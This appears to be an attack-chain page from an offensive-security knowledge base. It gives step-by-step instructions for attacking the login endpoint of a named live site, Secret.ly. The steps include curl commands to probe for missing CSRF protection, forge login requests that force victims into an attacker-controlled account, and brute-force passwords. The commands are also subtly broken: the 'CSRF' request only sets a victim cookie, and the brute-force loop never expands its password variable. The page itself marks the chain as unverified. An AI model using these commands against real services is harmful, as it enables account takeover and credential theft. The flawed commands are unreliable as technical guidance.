

# Login CSRF Exploitation Leading to Session Hijacking and Brute Force Attacks in Secret.ly

## Overview

This attack chain demonstrates how to exploit a Cross-Site Request Forgery (CSRF) vulnerability in the Secret.ly login form at https://www.secret.ly/_/login. The endpoint accepts JSON-based POST requests without CSRF token validation, allowing attackers to forge login requests from malicious sites. This can force logged-out users to authenticate as attacker-controlled accounts, resulting in session hijacking. Additionally, the lack of rate limiting enables brute-force attacks on credentials, potentially leading to unauthorized access. The chain starts with inspection, moves to CSRF exploitation, and ends with brute-force attempts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- Browser with developer tools

### Target Environment

- Web application: Secret.ly
- Endpoint: POST https://www.secret.ly/_/login
- No special ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- Network access to the target site
- No prior credentials needed for inspection
- Malicious site hosting for CSRF exploitation

## Detailed Attack Procedures

### Step 1: Inspect Login Endpoint
procedure: [[procedures/Inspect-Login-Endpoint-for-CSRF-Protection]]

**Objective**: Examine the login form to confirm the absence of CSRF protection and identify the request structure.

**Instructions**: Use browser developer tools or [[tools/Burp-Suite]] to capture the login POST request. Look for JSON payload with 'Login' and 'Password' fields and verify no CSRF token is present.

Execute a test request using [[commands/curl-login-inspect]]:

```bash
curl -X POST https://www.secret.ly/_/login -H "Content-Type: application/json" -d '{"Login":"test@example.com","Password":"testpass"}'
```

**Expected Output**: JSON response indicating login attempt processing without token validation errors.

**Success Indicators**:
- No CSRF token required in request
- Endpoint accepts forged JSON payload

### Step 2: Exploit Login CSRF
procedure: [[procedures/Exploit-Login-CSRF-for-Session-Hijacking]]

**Objective**: Forge a login request from a malicious site to hijack the victim's session by forcing authentication to an attacker-controlled account.

**Instructions**: Host a malicious HTML page with an auto-submitting form targeting the login endpoint. Ensure the victim is logged out and visits the malicious site.

Use [[commands/curl-csrf-exploit]] to simulate the forged request:

```bash
curl -X POST https://www.secret.ly/_/login -H "Content-Type: application/json" -d '{"Login":"attacker@evil.com","Password":"attackerpass"}' -b "session_cookie=victim_session"
```

**Expected Output**: Successful login response with session cookies for the attacker account.

**Success Indicators**:
- Victim's browser authenticates as attacker account
- Session hijacked; attacker gains access to victim's interface

### Step 3: Perform Brute Force Attacks
procedure: [[procedures/Perform-Brute-Force-on-Login-Endpoint]]

**Objective**: Attempt multiple login guesses to crack credentials due to absent rate limiting.

**Instructions**: Script repeated POST requests with varying credentials. Monitor for successful authentication without throttling.

Initiate brute force using [[commands/curl-brute-force]] in a loop:

```bash
for pass in password1 password2; do curl -X POST https://www.secret.ly/_/login -H "Content-Type: application/json" -d '{"Login":"target@example.com","Password":"$pass"}'; done
```

**Expected Output**: Series of responses; success indicated by authentication token or redirect.

**Success Indicators**:
- No rate limiting errors after multiple attempts
- Valid credentials discovered leading to access

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF vulnerability in login endpoint
2. Demonstrated session hijacking via forged requests
3. Exploited lack of rate limiting for brute-force credential guessing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Brute Force]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
